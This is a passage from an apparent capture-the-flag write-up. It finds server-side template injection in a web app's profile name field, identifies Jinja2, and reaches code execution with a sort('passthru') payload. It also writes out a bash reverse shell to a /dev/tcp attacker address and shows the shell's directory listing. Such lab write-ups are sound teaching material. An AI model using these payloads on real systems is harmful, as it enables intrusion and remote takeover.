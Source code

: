 Now, as we can see, a new option was added to our dashboard, we can see the `profile` section:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250506142950.png)

As seen, we are able to update our email, first name and last name, let's send the request to our proxy so we can analyze it:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250506143115.png)

Since we can see that `admin` is reflected on the dashboard main page, if we change the `fname` to something else, it could be reflected on there again, if this works, we are dealing with `SSTI`, let's test it out:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250506143213.png)


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250506143224.png)

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250506143243.png)

As seen, this is vulnerable to `SSTI`, now, we must identify the template engine, let's do it:

```jinja2
{{}}
```

After using that payload, i got this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250506143500.png)

This means that the template engine we are dealing with is `jinja2`, based on that, we can achieve `rce` by doing:

```jinja2
{{['id',""]|sort('passthru')}}
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250506143705.png)

As seen we can achieve `rce`, let's send a reverse shell using:

```jinja2
{{["bash -c 'exec bash -i >& /dev/tcp/10.11.136.34/9001 0>&1'",""]|sort('passthru')}}
```

If we check our listener:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250506144244.png)

```
www-data@injectics:/var/www/html$ ls -la
ls -la
total 548
drwxr-xr-x 6 ubuntu ubuntu   4096 Jul 31  2024 .
drwxr-xr-x 3 root   root     4096 Jul 19  2024 ..
-rw-rw-r-- 1 ubuntu ubuntu   1024 Jul 31  2024 .conn.php.swp
-rw-r--r-- 1 ubuntu ubuntu    121 Jul 31  2024 .htaccess
-rw-rw-r-- 1 ubuntu ubuntu   7370 Jul 23  2024 adminLogin007.php
-rw-r--r-- 1 ubuntu ubuntu 433129 Jul 18  2024 banner.jpg
-rw-r--r-- 1 ubuntu ubuntu     48 Jul 17  2024 composer.json
-rw-r--r-- 1 ubuntu ubuntu   8723 Jul 17  2024 composer.lock
-rw-r--r-- 1 ubuntu ubuntu   2867 Jul 31  2024 conn.php
drwxrwxr-x 2 ubuntu ubuntu   4096 Jul 18  2024 css
-rw-r--r-- 1 ubuntu ubuntu   7499 Jul 23  2024 dashboard.php
-rw-rw-r-- 1 ubuntu ubuntu   7227 Jul 23  2024 edit_leaderboard.php
drwxrwxr-x 2 ubuntu ubuntu   4096 Jul 18  2024 flags
-rw-r--r-- 1 ubuntu ubuntu   2101 Jul 22  2024 functions.php
-rw-r--r-- 1 ubuntu ubuntu   6083 Jul 23  2024 index.php
-rwxrwxr-x 1 ubuntu ubuntu   3947 Jul 23  2024 injecticsService.php
```